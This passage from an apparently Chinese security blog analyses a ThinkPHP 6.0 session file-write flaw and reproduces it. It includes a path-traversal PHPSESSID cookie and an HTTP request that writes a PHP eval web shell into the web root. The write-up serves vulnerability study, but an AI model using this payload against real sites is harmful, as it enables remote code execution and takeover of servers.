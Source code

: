   其中 `cookieName` 的值为 `PHPSESSID`， `$sessionId` 是 `cookie` 中名为 `PHPSESSID` 的值，因此是攻击者可控的，从而导致写入的文件名可控。
  
  但是默认环境下，`session` 的内容由 `vendor/topthink/framework/src/think/session/Store.php:261` 的变量 `$data` 传入：
  
  ![avatar](../../assets/blog_pic/20200313_thinkphp6.0/fenxi_4.png)
  
  `$data` 在默认环境中为空:
  
  ![avatar](../../assets/blog_pic/20200313_thinkphp6.0/fenxi_5.png)
  
  所以，可利用的条件比较苛刻
  

  👹一是默认情况下是不开启session的，开启session才可以实现任意文件操作

  👹二是写入的 session内容是由实际的后端业务逻辑来决定，只有特定情况才能getshell

  那接下来就get一下shell吧

# 复现漏洞

- 修改`app/composer/Index.php`，加一句

  ```
  session('sueisok',"1");
  ```
  
  ![avatar](../../assets/blog_pic/20200313_thinkphp6.0/sueisok.png)

- 开启session，去掉`app/middleware.php:9`中的注释

  ![avatar](../../assets/blog_pic/20200313_thinkphp6.0/middleware.png)
  
- 访问，抓包，将`PHPSESSID`改为目录地址
  
  ```
  Cookie: PHPSESSID=../../../../public/sueisokkk.php
  ```
  
  💢坑：这里的`PHPSESSID`一定要是32位的
  
  ![avatar](../../assets/blog_pic/20200313_thinkphp6.0/okkkphp.png)
  
  `runtime/session/`下会生成的session😀
  
  ![avatar](../../assets/blog_pic/20200313_thinkphp6.0/runtimesession.png)
  
- 来恶意操作一下，把`app/composer/Index.php`里写入
  
  ```
  session('sueisok',$_GET["c"]);
  ```
  
  ![avatar](../../assets/blog_pic/20200313_thinkphp6.0/getc.png)
  
  访问，抓包，数据包内容
  
  ```
  GET /index.php?s=index/index&c=%3C?php%20eval($_GET[a]);?%3E HTTP/1.1
  Host: 172.16.70.244:8000
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3835.0 Safari/537.36
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
  Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
  Accept-Encoding: gzip, deflate
  Connection: close
  Cookie: PHPSESSID=../../../../public/sueisokkk.php
  Upgrade-Insecure-Requests: 1
  Cache-Control: max-age=0
  ```
  